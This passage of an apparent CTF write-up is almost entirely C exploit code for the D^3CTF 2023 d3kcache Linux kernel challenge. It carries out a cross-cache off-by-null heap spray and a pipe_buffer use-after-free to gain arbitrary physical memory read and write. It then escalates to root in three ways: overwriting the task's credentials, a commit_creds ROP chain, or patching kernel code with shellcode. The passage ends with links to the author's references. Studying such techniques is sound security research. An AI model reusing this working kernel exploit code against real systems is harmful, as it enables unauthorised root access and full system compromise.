        if (fcntl(pipe_fd[start_idx + i][1], F_SETPIPE_SZ, 0x1000 * 64) < 0) {
            printf("[x] failed to extend %d pipe!\n", start_idx + i);
            return -1;
        }
    }

    return 0;
}

/**
 *  V - FIRST exploit stage - cross-cache overflow to make page-level UAF
*/

void corrupting_first_level_pipe_for_page_uaf(void)
{
    char buf[0x1000];

    puts("[*] spray pipe_buffer...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i ++) {

        if (pipe(pipe_fd[i]) < 0) {
            printf("[x] failed to alloc %d pipe!", i);
            err_exit("FAILED to create pipe!");
        }
    }

    /* spray pipe_buffer on order-2 pages, make vul-obj slub around with that.*/

    puts("[*] exetend pipe_buffer...");
    if (extend_pipe_buffer_to_4k(0, PIPE_SPRAY_NUM / 2) < 0) {
        err_exit("FAILED to extend pipe!");
    }

    puts("[*] spray vulnerable 2k obj...");
    free_page(pgv_8pages_start_idx++);
    for (int i = 0; i < KCACHE_NUM; i++) {
        kcache_alloc(i, 8, "arttnba3");
    }

    puts("[*] exetend pipe_buffer...");
    if (extend_pipe_buffer_to_4k(PIPE_SPRAY_NUM / 2, PIPE_SPRAY_NUM / 2) < 0) {
        err_exit("FAILED to extend pipe!");
    }

    puts("[*] allocating pipe pages...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        write(pipe_fd[i][1], "arttnba3", 8);
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], &i, sizeof(int));
        write(pipe_fd[i][1], "arttnba3", 8);
        write(pipe_fd[i][1], "arttnba3", 8);  /* prevent pipe_release() */
    }

    /* try to trigger cross-cache overflow */
    puts("[*] trigerring cross-cache off-by-null...");
    for (int i = 0; i < KCACHE_NUM; i++) {
        kcache_append(i, KCACHE_SIZE - 8, buf);
    }

    /* checking for cross-cache overflow */
    puts("[*] checking for corruption...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        char a3_str[0x10];
        int nr;

        memset(a3_str, '\0', sizeof(a3_str));
        read(pipe_fd[i][0], a3_str, 8);
        read(pipe_fd[i][0], &nr, sizeof(int));
        if (!strcmp(a3_str, "arttnba3") && nr != i) {
            orig_pid = nr;
            victim_pid = i;
            printf("\033[32m\033[1m[+] Found victim: \033[0m%d "
                   "\033[32m\033[1m, orig: \033[0m%d\n\n", 
                   victim_pid, orig_pid);
            break;
        }
    }

    if (victim_pid == -1) {
        err_exit("FAILED to corrupt pipe_buffer!");
    }
}

void corrupting_second_level_pipe_for_pipe_uaf(void)
{
    size_t buf[0x1000];
    size_t snd_pipe_sz = 0x1000 * (SND_PIPE_BUF_SZ/sizeof(struct pipe_buffer));

    memset(buf, '\0', sizeof(buf));

    /* let the page's ptr at pipe_buffer */
    write(pipe_fd[victim_pid][1], buf, SND_PIPE_BUF_SZ*2 - 24 - 3*sizeof(int));

    /* free orignal pipe's page */
    puts("[*] free original pipe...");
    close(pipe_fd[orig_pid][0]);
    close(pipe_fd[orig_pid][1]);

    /* try to rehit victim page by reallocating pipe_buffer */
    puts("[*] fcntl() to set the pipe_buffer on victim page...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid) {
            continue;
        }

        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, snd_pipe_sz) < 0) {
            printf("[x] failed to resize %d pipe!\n", i);
            err_exit("FAILED to re-alloc pipe_buffer!");
        }
    }

    /* read victim page to check whether we've successfully hit it */
    read(pipe_fd[victim_pid][0], buf, SND_PIPE_BUF_SZ - 8 - sizeof(int));
    read(pipe_fd[victim_pid][0], &info_pipe_buf, sizeof(info_pipe_buf));

    printf("\033[34m\033[1m[?] info_pipe_buf->page: \033[0m%p\n" 
           "\033[34m\033[1m[?] info_pipe_buf->ops: \033[0m%p\n", 
           info_pipe_buf.page, info_pipe_buf.ops);

    if ((size_t) info_pipe_buf.page < 0xffff000000000000
        || (size_t) info_pipe_buf.ops < 0xffffffff81000000) {
        err_exit("FAILED to re-hit victim page!");
    }

    puts("\033[32m\033[1m[+] Successfully to hit the UAF page!\033[0m");
    printf("\033[32m\033[1m[+] Got page leak:\033[0m %p\n", info_pipe_buf.page);
    puts("");

    /* construct a second-level page uaf */
    puts("[*] construct a second-level uaf pipe page...");
    info_pipe_buf.page = (struct page*) ((size_t) info_pipe_buf.page + 0x40);
    write(pipe_fd[victim_pid][1], &info_pipe_buf, sizeof(info_pipe_buf));

    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        int nr;

        if (i == orig_pid || i == victim_pid) {
            continue;
        }

        read(pipe_fd[i][0], &nr, sizeof(nr));
        if (nr < PIPE_SPRAY_NUM && i != nr) {
            snd_orig_pid = nr;
            snd_vicitm_pid = i;
            printf("\033[32m\033[1m[+] Found second-level victim: \033[0m%d "
                   "\033[32m\033[1m, orig: \033[0m%d\n", 
                   snd_vicitm_pid, snd_orig_pid);
            break;
        }
    }

    if (snd_vicitm_pid == -1) {
        err_exit("FAILED to corrupt second-level pipe_buffer!");
    }
}

/**
 * VI - SECONDARY exploit stage: build pipe for arbitrary read & write
*/

void building_self_writing_pipe(void)
{
    size_t buf[0x1000];
    size_t trd_pipe_sz = 0x1000 * (TRD_PIPE_BUF_SZ/sizeof(struct pipe_buffer));
    struct pipe_buffer evil_pipe_buf;
    struct page *page_ptr;

    memset(buf, 0, sizeof(buf));

    /* let the page's ptr at pipe_buffer */
    write(pipe_fd[snd_vicitm_pid][1], buf, TRD_PIPE_BUF_SZ - 24 -3*sizeof(int));

    /* free orignal pipe's page */
    puts("[*] free second-level original pipe...");
    close(pipe_fd[snd_orig_pid][0]);
    close(pipe_fd[snd_orig_pid][1]);

    /* try to rehit victim page by reallocating pipe_buffer */
    puts("[*] fcntl() to set the pipe_buffer on second-level victim page...");
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid) {
            continue;
        }

        if (fcntl(pipe_fd[i][1], F_SETPIPE_SZ, trd_pipe_sz) < 0) {
            printf("[x] failed to resize %d pipe!\n", i);
            err_exit("FAILED to re-alloc pipe_buffer!");
        }
    }

    /* let a pipe->bufs pointing to itself */
    puts("[*] hijacking the 2nd pipe_buffer on page to itself...");
    evil_pipe_buf.page = info_pipe_buf.page;
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.ops = info_pipe_buf.ops;
    evil_pipe_buf.flags = info_pipe_buf.flags;
    evil_pipe_buf.private = info_pipe_buf.private;

    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));

    /* check for third-level victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid) {
            continue;
        }

        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_2nd_pipe_pid = i;
            printf("\033[32m\033[1m[+] Found self-writing pipe: \033[0m%d\n", 
                    self_2nd_pipe_pid);
            break;
        }
    }

    if (self_2nd_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }

    /* overwrite the 3rd pipe_buffer to this page too */
    puts("[*] hijacking the 3rd pipe_buffer on page to itself...");
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;

    write(pipe_fd[snd_vicitm_pid][1],buf,TRD_PIPE_BUF_SZ-sizeof(evil_pipe_buf));
    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));

    /* check for third-level victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid
            || i == self_2nd_pipe_pid) {
            continue;
        }

        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_3rd_pipe_pid = i;
            printf("\033[32m\033[1m[+] Found another self-writing pipe:\033[0m"
                    "%d\n", self_3rd_pipe_pid);
            break;
        }
    }

    if (self_3rd_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }

    /* overwrite the 4th pipe_buffer to this page too */
    puts("[*] hijacking the 4th pipe_buffer on page to itself...");
    evil_pipe_buf.offset = TRD_PIPE_BUF_SZ;
    evil_pipe_buf.len = TRD_PIPE_BUF_SZ;

    write(pipe_fd[snd_vicitm_pid][1],buf,TRD_PIPE_BUF_SZ-sizeof(evil_pipe_buf));
    write(pipe_fd[snd_vicitm_pid][1], &evil_pipe_buf, sizeof(evil_pipe_buf));

    /* check for third-level victim pipe */
    for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
        if (i == orig_pid || i == victim_pid 
            || i == snd_orig_pid || i == snd_vicitm_pid
            || i == self_2nd_pipe_pid || i== self_3rd_pipe_pid) {
            continue;
        }

        read(pipe_fd[i][0], &page_ptr, sizeof(page_ptr));
        if (page_ptr == evil_pipe_buf.page) {
            self_4th_pipe_pid = i;
            printf("\033[32m\033[1m[+] Found another self-writing pipe:\033[0m"
                    "%d\n", self_4th_pipe_pid);
            break;
        }
    }

    if (self_4th_pipe_pid == -1) {
        err_exit("FAILED to build a self-writing pipe!");
    }

    puts("");
}

struct pipe_buffer evil_2nd_buf, evil_3rd_buf, evil_4th_buf;
char temp_zero_buf[0x1000]= { '\0' };

/**
 * @brief Setting up 3 pipes for arbitrary read & write.
 * We need to build a circle there for continuously memory seeking:
 * - 2nd pipe to search
 * - 3rd pipe to change 4th pipe
 * - 4th pipe to change 2nd and 3rd pipe
 */
void setup_evil_pipe(void)
{
    /* init the initial val for 2nd,3rd and 4th pipe, for recovering only */
    memcpy(&evil_2nd_buf, &info_pipe_buf, sizeof(evil_2nd_buf));
    memcpy(&evil_3rd_buf, &info_pipe_buf, sizeof(evil_3rd_buf));
    memcpy(&evil_4th_buf, &info_pipe_buf, sizeof(evil_4th_buf));

    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0xff0;

    /* hijack the 3rd pipe pointing to 4th */
    evil_3rd_buf.offset = TRD_PIPE_BUF_SZ * 3;
    evil_3rd_buf.len = 0;
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));

    evil_4th_buf.offset = TRD_PIPE_BUF_SZ;
    evil_4th_buf.len = 0;
}

void arbitrary_read_by_pipe(struct page *page_to_read, void *dst)
{
    /* page to read */
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0x1ff8;
    evil_2nd_buf.page = page_to_read;

    /* hijack the 4th pipe pointing to 2nd pipe */
    write(pipe_fd[self_3rd_pipe_pid][1], &evil_4th_buf, sizeof(evil_4th_buf));

    /* hijack the 2nd pipe for arbitrary read */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_2nd_buf, sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1], 
          temp_zero_buf, 
          TRD_PIPE_BUF_SZ-sizeof(evil_2nd_buf));
    
    /* hijack the 3rd pipe to point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));

    /* read out data */
    read(pipe_fd[self_2nd_pipe_pid][0], dst, 0xfff);
}

void arbitrary_write_by_pipe(struct page *page_to_write, void *src, size_t len)
{
    /* page to write */
    evil_2nd_buf.page = page_to_write;
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0;

    /* hijack the 4th pipe pointing to 2nd pipe */
    write(pipe_fd[self_3rd_pipe_pid][1], &evil_4th_buf, sizeof(evil_4th_buf));

    /* hijack the 2nd pipe for arbitrary read, 3rd pipe point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_2nd_buf, sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1], 
          temp_zero_buf, 
          TRD_PIPE_BUF_SZ - sizeof(evil_2nd_buf));
    
    /* hijack the 3rd pipe to point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1], &evil_3rd_buf, sizeof(evil_3rd_buf));

    /* write data into dst page */
    write(pipe_fd[self_2nd_pipe_pid][1], src, len);
}

/**
 * VII - FINAL exploit stage with arbitrary read & write
*/

size_t *tsk_buf, current_task_page, current_task, parent_task, buf[0x1000];


void info_leaking_by_arbitrary_pipe()
{
    size_t *comm_addr;

    memset(buf, 0, sizeof(buf));

    puts("[*] Setting up kernel arbitrary read & write...");
    setup_evil_pipe();

    /**
     * KASLR's granularity is 256MB, and pages of size 0x1000000 is 1GB MEM,
     * so we can simply get the vmemmap_base like this in a SMALL-MEM env.
     * For MEM > 1GB, we can just find the secondary_startup_64 func ptr,
     * which is located on physmem_base + 0x9d000, i.e., vmemmap_base[156] page.
     * If the func ptr is not there, just vmemmap_base -= 256MB and do it again.
     */
    vmemmap_base = (size_t) info_pipe_buf.page & 0xfffffffff0000000;
    for (;;) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + 157 * 0x40), buf);

        if (buf[0] > 0xffffffff81000000 && ((buf[0] & 0xfff) == 0x070)) {
            kernel_base = buf[0] -  0x070;
            kernel_offset = kernel_base - 0xffffffff81000000;
            printf("\033[32m\033[1m[+] Found kernel base: \033[0m0x%lx\n"
                   "\033[32m\033[1m[+] Kernel offset: \033[0m0x%lx\n", 
                   kernel_base, kernel_offset);
            break;
        }

        vmemmap_base -= 0x10000000;
    }
    printf("\033[32m\033[1m[+] vmemmap_base:\033[0m 0x%lx\n\n", vmemmap_base);

    /* now seeking for the task_struct in kernel memory */
    puts("[*] Seeking task_struct in memory...");

    prctl(PR_SET_NAME, "arttnba3pwnn");

    /**
     * For a machine with MEM less than 256M, we can simply get the:
     *      page_offset_base = heap_leak & 0xfffffffff0000000;
     * But that's not always accurate, espacially on a machine with MEM > 256M.
     * So we need to find another way to calculate the page_offset_base.
     * 
     * Luckily the task_struct::ptraced points to itself, so we can get the
     * page_offset_base by vmmemap and current task_struct as we know the page.
     * 
     * Note that the offset of different filed should be referred to your env.
     */
    for (int i = 0; 1; i++) {
        arbitrary_read_by_pipe((struct page*) (vmemmap_base + i * 0x40), buf);
    
        comm_addr = memmem(buf, 0xf00, "arttnba3pwnn", 12);
        if (comm_addr && (comm_addr[-2] > 0xffff888000000000) /* task->cred */
            && (comm_addr[-3] > 0xffff888000000000) /* task->real_cred */
            && (comm_addr[-57] > 0xffff888000000000) /* task->read_parent */
            && (comm_addr[-56] > 0xffff888000000000)) {  /* task->parent */

            /* task->read_parent */
            parent_task = comm_addr[-57];

            /* task_struct::ptraced */
            current_task = comm_addr[-50] - 2528;

            page_offset_base = (comm_addr[-50]&0xfffffffffffff000) - i * 0x1000;
            page_offset_base &= 0xfffffffff0000000;

            printf("\033[32m\033[1m[+] Found task_struct on page: \033[0m%p\n",
                   (struct page*) (vmemmap_base + i * 0x40));
            printf("\033[32m\033[1m[+] page_offset_base: \033[0m0x%lx\n",
                   page_offset_base);
            printf("\033[34m\033[1m[*] current task_struct's addr: \033[0m"
                   "0x%lx\n\n", current_task);
            break;
        }
    }
}

/**
 * @brief find the init_task and copy something to current task_struct
*/
void privilege_escalation_by_task_overwrite(void)
{
    /* finding the init_task, the final parent of every task */
    puts("[*] Seeking for init_task...");

    for (;;) {
        size_t ptask_page_addr = direct_map_addr_to_page_addr(parent_task);

        tsk_buf = (size_t*) ((size_t) buf + (parent_task & 0xfff));

        arbitrary_read_by_pipe((struct page*) ptask_page_addr, buf);
        arbitrary_read_by_pipe((struct page*) (ptask_page_addr+0x40),&buf[512]);

        /* task_struct::real_parent */
        if (parent_task == tsk_buf[309]) {
            break;
        }

        parent_task = tsk_buf[309];
    }

    init_task = parent_task;
    init_cred = tsk_buf[363];
    init_nsproxy = tsk_buf[377];

    printf("\033[32m\033[1m[+] Found init_task: \033[0m0x%lx\n", init_task);
    printf("\033[32m\033[1m[+] Found init_cred: \033[0m0x%lx\n", init_cred);
    printf("\033[32m\033[1m[+] Found init_nsproxy:\033[0m0x%lx\n",init_nsproxy);

    /* now, changing the current task_struct to get the full root :) */
    puts("[*] Escalating ROOT privilege now...");

    current_task_page = direct_map_addr_to_page_addr(current_task);

    arbitrary_read_by_pipe((struct page*) current_task_page, buf);
    arbitrary_read_by_pipe((struct page*) (current_task_page+0x40), &buf[512]);

    tsk_buf = (size_t*) ((size_t) buf + (current_task & 0xfff));
    tsk_buf[363] = init_cred;
    tsk_buf[364] = init_cred;
    tsk_buf[377] = init_nsproxy;

    arbitrary_write_by_pipe((struct page*) current_task_page, buf, 0xff0);
    arbitrary_write_by_pipe((struct page*) (current_task_page+0x40),
                            &buf[512], 0xff0);

    puts("[+] Done.\n");
    puts("[*] checking for root...");

    get_root_shell();
}

#define PTE_OFFSET 12
#define PMD_OFFSET 21
#define PUD_OFFSET 30
#define PGD_OFFSET 39

#define PT_ENTRY_MASK 0b111111111UL
#define PTE_MASK (PT_ENTRY_MASK << PTE_OFFSET)
#define PMD_MASK (PT_ENTRY_MASK << PMD_OFFSET)
#define PUD_MASK (PT_ENTRY_MASK << PUD_OFFSET)
#define PGD_MASK (PT_ENTRY_MASK << PGD_OFFSET)

#define PTE_ENTRY(addr) ((addr >> PTE_OFFSET) & PT_ENTRY_MASK)
#define PMD_ENTRY(addr) ((addr >> PMD_OFFSET) & PT_ENTRY_MASK)
#define PUD_ENTRY(addr) ((addr >> PUD_OFFSET) & PT_ENTRY_MASK)
#define PGD_ENTRY(addr) ((addr >> PGD_OFFSET) & PT_ENTRY_MASK)

#define PAGE_ATTR_RW (1UL << 1)
#define PAGE_ATTR_NX (1UL << 63)

size_t pgd_addr, mm_struct_addr, *mm_struct_buf;
size_t stack_addr, stack_addr_another;
size_t stack_page, mm_struct_page;

size_t vaddr_resolve(size_t pgd_addr, size_t vaddr)
{
    size_t buf[0x1000];
    size_t pud_addr, pmd_addr, pte_addr, pte_val;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    pte_addr = (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pte_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf);
    pte_val = (buf[PTE_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);

    return pte_val;
}

size_t vaddr_resolve_for_3_level(size_t pgd_addr, size_t vaddr)
{
    size_t buf[0x1000];
    size_t pud_addr, pmd_addr;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    return (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
}

void vaddr_remapping(size_t pgd_addr, size_t vaddr, size_t paddr)
{
    size_t buf[0x1000];
    size_t pud_addr, pmd_addr, pte_addr;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pgd_addr), buf);
    pud_addr = (buf[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pud_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pud_addr), buf);
    pmd_addr = (buf[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pmd_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pmd_addr), buf);
    pte_addr = (buf[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
    pte_addr += page_offset_base;

    arbitrary_read_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf);
    buf[PTE_ENTRY(vaddr)] = paddr | 0x8000000000000867; /* mark it writable */
    arbitrary_write_by_pipe((void*) direct_map_addr_to_page_addr(pte_addr), buf,
                            0xff0);
}

void pgd_vaddr_resolve(void)
{
    puts("[*] Reading current task_struct...");

    /* read current task_struct */
    current_task_page = direct_map_addr_to_page_addr(current_task);
    arbitrary_read_by_pipe((struct page*) current_task_page, buf);
    arbitrary_read_by_pipe((struct page*) (current_task_page+0x40), &buf[512]);

    tsk_buf = (size_t*) ((size_t) buf + (current_task & 0xfff));
    stack_addr = tsk_buf[4];
    mm_struct_addr = tsk_buf[292];

    printf("\033[34m\033[1m[*] kernel stack's addr:\033[0m0x%lx\n",stack_addr);
    printf("\033[34m\033[1m[*] mm_struct's addr:\033[0m0x%lx\n",mm_struct_addr);

    mm_struct_page = direct_map_addr_to_page_addr(mm_struct_addr);

    printf("\033[34m\033[1m[*] mm_struct's page:\033[0m0x%lx\n",mm_struct_page);

    /* read mm_struct */
    arbitrary_read_by_pipe((struct page*) mm_struct_page, buf);
    arbitrary_read_by_pipe((struct page*) (mm_struct_page+0x40), &buf[512]);

    mm_struct_buf = (size_t*) ((size_t) buf + (mm_struct_addr & 0xfff));

    /* only this is a virtual addr, others in page table are all physical addr*/
    pgd_addr = mm_struct_buf[9];

    printf("\033[32m\033[1m[+] Got kernel page table of current task:\033[0m"
           "0x%lx\n\n", pgd_addr);
}

/**
 * It may also be okay to write ROP chain on pipe_write's stack, if there's
 * no CONFIG_RANDOMIZE_KSTACK_OFFSET_DEFAULT(it can also be bypass by RETs). 
 * But what I want is a more novel and general exploitation that 
 * doesn't need any information about the kernel image. 
 * So just simply overwrite the task_struct is good :)
 * 
 * If you still want a normal ROP, refer to following codes.
*/

#define COMMIT_CREDS 0xffffffff811284e0
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff82201a90
#define INIT_CRED 0xffffffff83079ee8
#define POP_RDI_RET 0xffffffff810157a9
#define RET 0xffffffff810157aa

void privilege_escalation_by_rop(void)
{
    size_t rop[0x1000], idx = 0; 

    /* resolving some vaddr */
    pgd_vaddr_resolve();
    
    /* reading the page table directly to get physical addr of kernel stack*/
    puts("[*] Reading page table...");

    stack_addr_another = vaddr_resolve(pgd_addr, stack_addr);
    stack_addr_another &= (~PAGE_ATTR_NX); /* N/X bit */
    stack_addr_another += page_offset_base;

    printf("\033[32m\033[1m[+] Got another virt addr of kernel stack: \033[0m"
           "0x%lx\n\n", stack_addr_another);

    /* construct the ROP */
    for (int i = 0; i < ((0x1000 - 0x100) / 8); i++) {
        rop[idx++] = RET + kernel_offset;
    }

    rop[idx++] = POP_RDI_RET + kernel_offset;
    rop[idx++] = INIT_CRED + kernel_offset;
    rop[idx++] = COMMIT_CREDS + kernel_offset;
    rop[idx++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE +54 + kernel_offset;
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = *(size_t*) "arttnba3";
    rop[idx++] = (size_t) get_root_shell;
    rop[idx++] = user_cs;
    rop[idx++] = user_rflags;
    rop[idx++] = user_sp;
    rop[idx++] = user_ss;

    stack_page = direct_map_addr_to_page_addr(stack_addr_another);

    puts("[*] Hijacking current task's stack...");

    sleep(5);

    arbitrary_write_by_pipe((struct page*) (stack_page + 0x40 * 3), rop, 0xff0);
}

void privilege_escalation_by_usma(void)
{
    #define NS_CAPABLE_SETID 0xffffffff810fd2a0

    char *kcode_map, *kcode_func;
    size_t dst_paddr, dst_vaddr, *rop, idx = 0;

    /* resolving some vaddr */
    pgd_vaddr_resolve();

    kcode_map = mmap((void*) 0x114514000, 0x2000, PROT_READ | PROT_WRITE, 
                     MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    if (!kcode_map) {
        err_exit("FAILED to create mmap area!");
    }

    /* because of lazy allocation, we need to write it manually */
    for (int i = 0; i < 8; i++) {
        kcode_map[i] = "arttnba3"[i];
        kcode_map[i + 0x1000] = "arttnba3"[i];
    }

    /* overwrite kernel code seg to exec shellcode directly :) */
    dst_vaddr = NS_CAPABLE_SETID + kernel_offset;
    printf("\033[34m\033[1m[*] vaddr of ns_capable_setid is: \033[0m0x%lx\n",
           dst_vaddr);

    dst_paddr = vaddr_resolve_for_3_level(pgd_addr, dst_vaddr);
    dst_paddr += 0x1000 * PTE_ENTRY(dst_vaddr);

    printf("\033[32m\033[1m[+] Got ns_capable_setid's phys addr: \033[0m"
           "0x%lx\n\n", dst_paddr);

    /* remapping to our mmap area */
    vaddr_remapping(pgd_addr, 0x114514000, dst_paddr);
    vaddr_remapping(pgd_addr, 0x114514000 + 0x1000, dst_paddr + 0x1000);

    /* overwrite kernel code segment directly */

    puts("[*] Start overwriting kernel code segment...");

    /**
     * The setresuid() check for user's permission by ns_capable_setid(),
     * so we can just patch it to let it always return true :)
     */
    memset(kcode_map + (NS_CAPABLE_SETID & 0xfff), '\x90', 0x40); /* nop */
    memcpy(kcode_map + (NS_CAPABLE_SETID & 0xfff) + 0x40, 
            "\xf3\x0f\x1e\xfa"  /* endbr64 */
            "H\xc7\xc0\x01\x00\x00\x00"  /* mov rax, 1 */
            "\xc3", /* ret */
            12);

    /* get root now :) */
    puts("[*] trigger evil ns_capable_setid() in setresuid()...\n");

    sleep(5);

    setresuid(0, 0, 0);
    get_root_shell();
}

/**
 * Just for testing CFI's availability :)
*/
void trigger_control_flow_integrity_detection(void)
{
    size_t buf[0x1000];
    struct pipe_buffer *pbuf = (void*) ((size_t)buf + TRD_PIPE_BUF_SZ);
    struct pipe_buf_operations *ops, *ops_addr;

    ops_addr = (struct pipe_buf_operations*) 
                 (((size_t) info_pipe_buf.page - vmemmap_base) / 0x40 * 0x1000);
    ops_addr = (struct pipe_buf_operations*)((size_t)ops_addr+page_offset_base);

    /* two random gadget :) */
    ops = (struct pipe_buf_operations*) buf;
    ops->confirm = (void*)(0xffffffff81a78568 + kernel_offset);
    ops->release = (void*)(0xffffffff816196e6 + kernel_offset);

    for (int i = 0; i < 10; i++) {
        pbuf->ops = ops_addr;
        pbuf = (struct pipe_buffer *)((size_t) pbuf + TRD_PIPE_BUF_SZ);
    }

    evil_2nd_buf.page = info_pipe_buf.page;
    evil_2nd_buf.offset = 0;
    evil_2nd_buf.len = 0;

    /* hijack the 4th pipe pointing to 2nd pipe */
    write(pipe_fd[self_3rd_pipe_pid][1],&evil_4th_buf,sizeof(evil_4th_buf));

    /* hijack the 2nd pipe for arbitrary read, 3rd pipe point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1],&evil_2nd_buf,sizeof(evil_2nd_buf));
    write(pipe_fd[self_4th_pipe_pid][1], 
          temp_zero_buf, 
          TRD_PIPE_BUF_SZ - sizeof(evil_2nd_buf));
        
    /* hijack the 3rd pipe to point to 4th pipe */
    write(pipe_fd[self_4th_pipe_pid][1],&evil_3rd_buf,sizeof(evil_3rd_buf));

    /* write data into dst page */
    write(pipe_fd[self_2nd_pipe_pid][1], buf, 0xf00); 

    /* trigger CFI... */
    puts("[=] triggering CFI's detection...\n");
    sleep(5);
    close(pipe_fd[self_2nd_pipe_pid][0]);
    close(pipe_fd[self_2nd_pipe_pid][1]);
}

int main(int argc, char **argv, char **envp)
{
    /**
     * Step.O - fundamental works
     */

    save_status();

    /* bind core to 0 */
    bind_core(0);

    /* dev file */
    dev_fd = open("/dev/d3kcache", O_RDWR);
    if (dev_fd < 0) {
        err_exit("FAILED to open /dev/d3kcache!");
    }

    /* spray pgv pages */
    prepare_pgv_system();
    prepare_pgv_pages();

    /**
     * Step.I - page-level heap fengshui to make a cross-cache off-by-null,
     * making two pipe_buffer pointing to the same pages
     */
    corrupting_first_level_pipe_for_page_uaf();

    /**
     * Step.II - re-allocate the victim page to pipe_buffer,
     * leak page-related address and construct a second-level pipe uaf
     */
    corrupting_second_level_pipe_for_pipe_uaf();

    /**
     * Step.III - re-allocate the second-level victim page to pipe_buffer,
     * construct three self-page-pointing pipe_buffer 
     */
    building_self_writing_pipe();

    /**
     * Step.IV - leaking fundamental information by pipe
     */
    info_leaking_by_arbitrary_pipe();

    /**
     * Step.V - different method of exploitation
     */

    if (argv[1] && !strcmp(argv[1], "rop")) {
        /* traditionally root by rop */
        privilege_escalation_by_rop();
    } else if (argv[1] && !strcmp(argv[1], "cfi")) {
        /* extra - check for CFI's availability */
        trigger_control_flow_integrity_detection();
    } else if (argv[1] && !strcmp(argv[1], "usma")) {
        privilege_escalation_by_usma();
    }else {
        /* default: root by seeking init_task and overwrite current */
        privilege_escalation_by_task_overwrite();
    }

    /* we SHOULDN'T get there, so panic :( */
    trigger_control_flow_integrity_detection();
    
    return 0;
}

```

## REFERENCE

[[D^3CTF 2023] d3kcache: From null-byte cross-cache overflow to infinite arbitrary read & write in physical memory space.](https://github.com/arttnba3/D3CTF2023_d3kcache)

[【PWN.0x02】Linux Kernel Pwn II：常用結構體集合](https://arttnba3.cn/2021/11/29/PWN-0X02-LINUX-KERNEL-PWN-PART-II/)

